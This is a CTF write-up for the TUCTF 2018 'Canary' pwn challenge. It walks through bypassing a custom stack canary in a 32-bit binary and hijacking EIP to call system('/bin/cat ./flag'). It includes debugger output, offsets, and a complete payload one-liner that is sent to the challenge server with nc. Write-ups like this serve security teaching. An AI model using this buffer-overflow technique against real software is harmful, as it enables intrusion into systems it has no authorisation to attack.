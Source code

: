 #### TUCTF CTF 2018 - Canary 471 - Pwn 

##### Challenge

Difficulty: easy
I can fix overflows easy! I'll just make my own stack canary no problem.
Just try and pwn this, I dare you

nc 18.222.227.1 12345


#### Summary

It is a pwn task where we have to bypass a custom "stack smashing protection".  Thus, our goal is bypass this canary and generate the payload using the system function and /bin/cat which can be found in the program.

#### Solution

```bash
canary: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9b48c0ff2f3207562359b54cb199bae1583f918c, not stripped
```

If we open the binary with radare2 we can see that all operations about the "custom canary" are in the function doCanary, also, there is the buffer overflow too.

![](https://unam.re/static/files/Canary-main.png)

The program is compiled with NX, so inject a shellcode into stack is not possible (well, it is possible but it will not execute).

```bash
[0x080486e3]> iI
arch     x86
binsz    6586
bintype  elf
bits     32
canary   false
class    ELF32
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
static   false
stripped false
subsys   linux
va       true
```



In the function doCanary is the buffer overflow and the function which check if the canary has been overwritten. So, our purpose is overwrite the canary with a value that we know in order to bypass the "canary check"

![](https://unam.re/static/files/Canary-doCanary.png)





![](https://unam.re/static/files/Canary-checkCanary.png)



Now that we understand how the canary is checked, we can find all offsets using gdb+peda.

Our first step, is bypass (mov    eax,DWORD PTR [eax*4+0x804a0a0]) which should have a correct address.

```assembly
EAX: 0x41414641 ('AFAA')
EBX: 0x0 
ECX: 0xbffff324 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EDX: 0x1a4 
ESI: 0xb7faa000 --> 0x1d5d8c 
EDI: 0x0 
EBP: 0xbffff30c --> 0xbffff318 --> 0xbffff358 ("AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
ESP: 0xbffff304 --> 0xb7faa000 --> 0x1d5d8c 
EIP: 0x8048677 (<checkCanary+21>:	mov    eax,DWORD PTR [eax*4+0x804a0a0])
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804866e <checkCanary+12>:	mov    DWORD PTR [ebp-0x4],eax
   0x8048671 <checkCanary+15>:	mov    eax,DWORD PTR [ebp+0x8]
   0x8048674 <checkCanary+18>:	mov    eax,DWORD PTR [eax+0x2c]
=> 0x8048677 <checkCanary+21>:	mov    eax,DWORD PTR [eax*4+0x804a0a0]

```

It is in offset 44.

```
EAX+0 found at offset: 44
```

We know that the canary is in 0x804a0a0, so we examine what is in 0x804a0a0+0x4 and it is 0x0.

```assembly
gdb-peda$ x/gw 0x804a0a0
0x804a0a0 <cans>:	0xe2db4407
gdb-peda$ x/gw 0x804a0a0+0x4
0x804a0a4 <cans+4>:	0x00000000
```

Thus, we can overwrite the canary with 0x0, and it will work! (the canary is at offset 40)

Finally we have bypassed the canary, and we can go to the last *ret* in order to handle the EIP 

```assembly
gdb-peda$ pattern create 100 
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ shell python -c 'print "A"*40+"\x00\x00\x00\x00"+"\x01\x00\x00\x00"+"AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL"' > input
gdb-peda$ r < input 
Starting program: /root/Downloads/canary < input
*slides open window*
Password? Yeah right! Scram

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xb7faadc7 --> 0xfab8900a 
EDX: 0xb7fab890 --> 0x0 
ESI: 0xb7faa000 --> 0x1d5d8c 
EDI: 0x0 
EBP: 0x41734141 ('AAsA')
ESP: 0xbffff360 ("$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\no\376\267")
EIP: 0x41414241 ('ABAA')
EFLAGS: 0x10296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414241
[------------------------------------stack-------------------------------------]
0000| 0xbffff360 ("$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\no\376\267")
0004| 0xbffff364 ("AACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\no\376\267")
0008| 0xbffff368 ("A-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\no\376\267")
0012| 0xbffff36c ("(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\no\376\267")
0016| 0xbffff370 ("AA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\no\376\267")
0020| 0xbffff374 ("A)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\no\376\267")
0024| 0xbffff378 ("EAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\no\376\267")
0028| 0xbffff37c ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\no\376\267")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414241 in ?? ()
gdb-peda$ patts
Registers contain pattern buffer:
EBP+0 found at offset: 4
EIP+0 found at offset: 8
Registers point to pattern buffer:
[ESP] --> offset 12 - size ~99
Pattern buffer found at:
0xbffff358 : offset    4 - size   96 ($sp + -0x8 [-2 dwords])
References to pattern buffer found at:
0xbffff314 : 0xbffff358 ($sp + -0x4c [-19 dwords])

```

So, we know that EIP can be overwrite at offset 8 in this *De Bruijn sequence*. 

```
"A"*40+CANARY+0x1+"A"*8+EIP
```

Now we have the control of EIP, then search for system and /bin/cat flag in order to get the flag.

```assembly
[0x08048510]> afll~system
0x080484a0    6     1     0     1    3 0x080484a0     6 0x080484a6     0    0      0    1     0 sym.imp.system
[0x08048510]> iz~flag
002 0x000008a9 0x080488a9  15  16 (.rodata) ascii /bin/cat ./flag
```



Finally, we have all ingredients to make the functional exploit which will print the flag.

```python
$ python -c 'print "A"*40+"\x00\x00\x00\x00"+"\x01\x00\x00\x00"+"CCCCBBBB"+"\xa0\x84\x04\x08"+"AAAA"+"\xa9\x88\x04\x08"' > input
# It works on local
$ cat input | ./canary 
*slides open window*
Password? Yeah right! Scram
flag{test-flag-here}
Segmentation fault
```



and finally, we launch against the server:

```bash
hiro@HackingLab:~/CTF/TUCTF_2018/pwn_canary$ python -c 'print "A"*40+"\x00\x00\x00\x00"+"\x01\x00\x00\x00"+"CCCCBBBB"+"\xa0\x84\x04\x08"+"AAAA"+"\xa9\x88\x04\x08"' > input
hiro@HackingLab:~/CTF/TUCTF_2018/pwn_canary$ cat input | nc 18.222.227.1 12345
*slides open window*
Password? Yeah right! Scram
TUCTF{n3v3r_r0ll_y0ur_0wn_c4n4ry}
```



Happy hacking! :)